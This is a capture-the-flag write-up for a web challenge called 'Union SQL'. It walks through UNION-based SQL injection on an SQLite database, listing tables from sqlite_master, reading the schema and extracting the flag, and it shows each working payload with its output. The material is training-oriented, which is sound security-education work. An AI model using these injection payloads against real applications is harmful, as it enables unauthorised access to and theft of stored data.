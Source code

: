 # Union SQL
Web

## Challenge 

This time, try to find the table that contains the flag!

http://challs.hats.sg:1351

Challenge by: Gladiator

## Solution

Reference: https://medium.com/@gregIT/ringzer0team-ctf-sqli-challenges-part-2-b816ef9424cc

As before, we can do injection like this.

> 2' or 1=1;-- 

	--name-- | --description--
	| 
	Dog | Is an animal
	MOOOO | MEW
	Salmon | Is a fish
	flag | NOT THE FLAG

The title tells us that we need to use UNION, so check that it works.

> 2' or 1=1 UNION SELECT 123,456;-- 

	--name-- | --description--
	123 | 456
	Dog | Is an animal
	MOOOO | MEW
	Salmon | Is a fish
	flag | NOT THE FLAG

And we can get a [list of table names from sqlite_master](https://www.sqlitetutorial.net/sqlite-tutorial/sqlite-show-tables/). Use UNION to add it to our result and [concat the names together](https://www.sqlitetutorial.net/sqlite-group_concat/).

> 2' or 1=1 UNION SELECT GROUP_CONCAT(name), NULL FROM sqlite_master;--  

	--name-- | --description--
	Dog | Is an animal
	MOOOO | MEW
	Salmon | Is a fish
	flag | NOT THE FLAG
	user,flag | 

We see a table name called 'flag'. Let's check it out. Find out the [list of columns inside the table](https://stackoverflow.com/questions/685206/how-to-get-a-list-of-column-names).

> 2' or 1=1 UNION SELECT sql, NULL FROM sqlite_master;--

	--name-- | --description--
	CREATE TABLE "flag" ( "flag"	TEXT ) | 
	CREATE TABLE "user" ( "id"	INTEGER, "name"	TEXT, "description"	TEXT, PRIMARY KEY("id") ) | 
	Dog | Is an animal
	MOOOO | MEW
	Salmon | Is a fish
	flag | NOT THE FLAG

There is only one column. Read it out

> 2' or 1=1 UNION SELECT flag, NULL FROM flag;--

	--name-- | --description--
	Dog | Is an animal
	HATS{by_order_of_the_union_you_shall_be_knighted_with_the_rank_of_arch_haxor} | 
	MOOOO | MEW
	Salmon | Is a fish
	flag | NOT THE FLAG


## Flag

	HATS{by_order_of_the_union_you_shall_be_knighted_with_the_rank_of_arch_haxor}
